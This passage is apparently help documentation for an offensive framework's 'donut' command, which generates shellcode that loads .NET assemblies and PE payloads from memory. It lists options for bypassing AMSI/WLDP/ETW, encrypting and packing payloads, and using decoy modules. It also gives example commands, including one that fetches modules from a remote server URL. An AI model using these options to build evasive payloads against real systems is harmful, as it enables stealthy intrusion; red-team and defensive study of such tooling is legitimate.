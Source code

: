 ```
  -n, --name string       Overwrite profile name
  -p, --pipeline string   Overwrite profile basic pipeline_id
      --rem string        rem pipeline id
```

**SEE ALSO**

* [profile](#profile)	 - compile profile 

### donut
donut cmd

**Description**

Generates x86, x64, or AMD64+x86 position-independent shellcode that loads .NET Assemblies, PE files, and other Windows payloads from memory 

```
donut [flags]
```

**Examples**


  gonut -i c2.dll
  gonut --arch x86 --class TestClass --method RunProcess --args notepad.exe --input loader.dll
  gonut -i loader.dll -c TestClass -m RunProcess -p "calc notepad" -s http://remote_server.com/modules/
  gonut -z2 -k2 -t -i loader.exe -o out.bin


**Options**

```
  -a, --arch int          Target architecture:
                          	1=x86
                          	2=amd64
                          	3=x86+amd64
                          	 (default 3)
  -p, --args string       Optional parameters/command line inside quotations for DLL method/function or EXE.
  -b, --bypass uint32     Bypass AMSI/WLDP/ETW:
                          	1=None
                          	2=Abort on fail
                          	3=Continue on fail
                          	 (default 3)
  -c, --class string      Optional class name. (required for .NET DLL, format: namespace.class)
  -z, --compress uint32   Pack/Compress file:
                          	1=None
                          	2=aPLib         [experimental]
                          	3=LZNT1  (RTL)  [experimental, Windows only]
                          	4=Xpress (RTL)  [experimental, Windows only]
                          	5=LZNT1         [experimental]
                          	6=Xpress        [experimental, recommended]
                          	 (default 1)
  -j, --decoy string      Optional path of decoy module for Module Overloading.
  -d, --domain string     AppDomain name to create for .NET assembly. If entropy is enabled, this is generated randomly.
  -e, --entropy uint32    Entropy:
                          	1=None
                          	2=Use random names
                          	3=Random names + symmetric encryption
                          	 (default 3)
  -x, --exit uint32       Exit behaviour:
                          	1=Exit thread
                          	2=Exit process
                          	3=Do not exit or cleanup and block indefinitely
                          	 (default 1)
```